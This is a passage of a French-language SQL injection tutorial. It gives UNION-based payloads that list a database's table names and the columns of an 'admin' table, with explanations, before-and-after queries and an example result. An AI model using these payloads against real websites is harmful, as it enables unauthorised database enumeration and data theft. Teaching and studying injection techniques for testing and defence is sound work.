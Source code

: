 ## 2.4. Lister les noms des tables

**Commande :**
```sql
' OR 1=1 UNION SELECT 0, GROUP_CONCAT(table_name), 2 FROM information_schema.tables WHERE table_schema=DATABASE() ORDER BY 1; #
```

**Explication :**
- **Contexte:** Connaître les tables présentes dans la base de données permet d'identifier des cibles pour des attaques plus spécifiques.
- **Objectif:** Obtenir les noms des tables dans la base de données courante.
- **Fonctionnement:** Utilisation de `GROUP_CONCAT` pour concaténer les noms de tables.

**Exemple :**
Requête de base :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1;
```

Injection :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1 OR 1=1 UNION SELECT 0, GROUP_CONCAT(table_name), 2 FROM information_schema.tables WHERE table_schema=DATABASE() ORDER BY 1;
```

Résultat :
| id | titre                                             | contenu |
|----|---------------------------------------------------|---------|
| 0  | utilisateurs,articles,produits,commandes,...      | 2       |

Les tables présentes sont `utilisateurs`, `articles`, `produits`, `commandes`, etc.

## 2.5. Lister les noms des colonnes d'une table spécifique

**Commande :**
```sql
' OR 1=1 UNION SELECT 0, GROUP_CONCAT(column_name), 2 FROM information_schema.columns WHERE table_name="admin" ORDER BY 1; #
```

**Explication :**
- **Contexte:** Connaître les colonnes d'une table spécifique est crucial pour extraire des données précises.
- **Objectif:** Obtenir les noms des colonnes de la table nommée "admin".
- **Fonctionnement:** Utilisation de `GROUP_CONCAT` pour concaténer les noms de colonnes.

**Exemple :**
Requête de base :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1;
```

Injection :
```sql
SELECT id, titre, contenu FROM articles WHERE id = 1 OR 1=1 UNION SELECT 0, GROUP_CONCAT(column_name), 2 FROM information_schema.columns WHERE table_name="admin" ORDER BY 1;
```
